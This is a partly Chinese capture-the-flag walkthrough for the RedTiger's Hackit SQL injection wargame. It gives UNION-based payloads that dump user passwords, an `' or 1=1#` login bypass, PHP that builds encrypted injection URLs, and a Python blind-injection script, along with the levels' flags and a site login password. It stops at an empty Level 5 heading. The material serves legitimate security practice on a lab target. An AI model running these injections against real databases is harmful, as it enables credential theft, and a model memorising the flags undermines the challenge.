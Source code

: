 # SQL Practice@[RedTigers Hackit](http://redtiger.labs.overthewire.org)

## Level 1

1.  确定列数: `?cat=1 order by 5`
2.  确定显示位置:　`?cat=0 union select 1,2,3,4 from level1_users`
3.  Get: `?cat=0 union select 1,2,username,password from level1_users`
4.  flag: `27cbddc803ecde822d87a7e8639f9315`

## Level 2

1.  `' or 1=1#`
2.  flag: `1222e2d4ad5da677efb188550528bfaa`

## Level 3

    > Target: Get the password of the user Admin.
    > Hint: Try to get an error. Tablename: level3_users

1.  构造错误: `level3.php?usr[]=MTI5MTY0MTczMTY5MTc0`

    > Show userdetails:
    > Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21


2.  [urlcrypt.inc](./level_3/urlcrypt.inc)

3.  得到两个函数，encrypt和decrypt分别用来解密和加密

4.  构造PHP语句，确定列数:

    ```php
    $url='http://redtiger.labs.overthewire.org/level3.php?usr=';
    $order='admin\'order by 7 #';
    $order=encrypt($order);
    echo "$url$order <br>";
    $url='http://redtiger.labs.overthewire.org/level3.php?usr=';
    $order='admin\'order by 8 #';
    $order=encrypt($order);
    echo "$url$order <br>";
    ```

5.  构造PHP语句，拿到flag:

    ```php
    $url='http://redtiger.labs.overthewire.org/level3.php?usr=';
    $order='\' union select 1,username,3,password,5,6,7 from level3_users where username=\'admin\' #';
    $order=encrypt($order);
    echo "$url$order <br>";
    ```

6.  flag: a707b245a60d570d25a0449c2a516eca

## Level 4

>  Target: Get the value of the first entry in table level4_secret in column keyword
>
>  Disabled: like

1.  判断目标长度: `?id=1 and length(keyword)=17`

2.  猜测目标内容：`?id=1 and ASCII(SUBSTR(keyword,1,1))=0`

3.  自动化猜测：

        ```python

    import requests
    def search(p,l,r):
        if l > r:
            return False
        x=(l+r) // 2
        re=s.post(url+order % (p,'=',x),data = login)
        if '1 rows.' in re.text:
            return chr(x)
        re=s.post(url+order % (p,'>',x),data = login)
        if '1 rows.' in re.text:
            return search(p,x+1,r)
        else:
            return search(p,l,x-1)
    s = requests.Session()
    login = {'password': 'dont_publish_solutions_GRR!',
             'level4login': 'Login'}
    url='<http://redtiger.labs.overthewire.org/level4.php>'
    order='?id=1 and length(keyword)>'
    i=16
    while i &lt; 32767:
        re=s.post(url+order+str(i),data = login)
        if '0 rows.' in re.text:
            length=i
            break
        i=i+1
    print 'length=',length
    keyword=''
    order='?id=1 and ASCII(SUBSTR(keyword,%d,1))%s%d'
    for i in range(1,length+1):
        keyword=keyword+search(i,32,126)
        print i,'/',length,keyword
    print 'keyword=',keyword

        	```

4.  flag: `e8bcb79c389f5e295bac81fda9fd7cfa`

## Level 5

1.
